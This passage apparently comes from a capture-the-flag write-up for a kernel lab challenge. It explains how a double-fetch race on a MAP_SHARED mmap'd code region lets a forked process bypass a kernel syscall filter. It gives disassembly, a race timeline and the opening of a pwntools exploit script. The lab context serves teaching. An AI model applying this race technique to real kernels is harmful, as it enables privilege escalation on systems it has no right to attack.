 ```c
v3 = &state->code[state->regs.i];
if (v3->op & SYSCALL && (LOBYTE(a3) = a3 & (READ_CODE | READ_MEM), (_BYTE)a3) )
{
    state->signal = -42;
}
```

Where `state->code` is actually the allocated `vmalloc` memory region, that is exposed to userspace via `mmap`. While inspecting its disassembly carefully, we can note the following:

```c
add rax, [rdi +100h]  // v3 (current instruction)
mov dl, [rax + 1]  // Syscall type
test byte ptr [rax], 0x20  // Check for Opcode type == Syscall?
```

But recall the memory region content, denoted by `rax`, is actually controlled by userspace. In particular, since we can `mmap` this region to multiple users, with `MAP_SHARED`, multiple processes would be able to write towards this underlying memory region. If `P1` would request a blocked syscall type by the syscall filter, such as `Syscall.READ_MEM`, and at the same time, `P2` would constantly write to this exact instruction memory address the value of some garbage opcode, that is NOT a `Syscall`, the check might pass:

```bash
mov dl, [rax + 1]  # P1_kernel: dl = READ_MEM
mov [rax], FAKE_INST  # P2_user: write fake inst
test byte ptr [rax], 20h  # P1_kernel: [rax] != 0x20, check passes, flow continues
mov [rax], ORIG_INST  # P2_user: restore original inst
k_syscall()  # P1_kernel: executes desired syscall instruction! 
```

This means that by using `fork` within userspace, we can create a new process `P2`, that maps the same `ioctl` memory region as `MAP_SHARED`, constantly writing `0x20` and other garbage byte at the exact offset where the desired syscall to be bypass resides, within the yancode. \
By calling `fork` right after popping the shared map region within the userspace shellcode, we can achieve exactly this. 

```python
#!/bin/python

from glob import glob
from dataclasses import dataclass
from subprocess import check_output
from tempfile import TemporaryFile
from pwn import *
import os, sys
import struct
import time
import shutil
import binascii
import signal
import array
import textwrap
import string
import logging
# BINARY = glob('/challenge/toddler*')[0]
BINARY = '/challenge/toddlersys_level2.0'
# LIBC = '/challenge/lib/libc.so.6'
GDB_SCRIPT= '''
set follow-fork-mode child
set print elements 0
handle SIG33 nostop noprint

c
'''

context.arch = 'amd64'
```

[linux-kernel-labs-vma]: https://linux-kernel-labs.github.io/refs/pull/222/merge/labs/memory_mapping.html
[litux-vma]: https://litux.nl/mirror/kerneldevelopment/0672327201/ch14lev1sec2.html